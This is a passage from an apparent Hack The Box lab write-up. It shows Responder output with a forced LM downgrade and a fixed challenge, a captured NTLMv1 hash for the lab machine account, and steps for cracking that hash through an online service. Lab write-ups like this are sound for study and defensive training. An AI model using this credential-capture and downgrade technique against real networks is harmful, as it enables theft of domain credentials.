 ```shell
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [ON]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.24]
    Challenge set              [1122334455667788]



[+] Listening for events...
[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
```


To crack this hash we can use some online dedicated hash cracking services such as [https://crack.sh/netntlm/]( https://crack.sh/netntlm/) <br>

Submit the hash in the following manner: <br>

NTHASH:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384


<p class= "aligncenter" >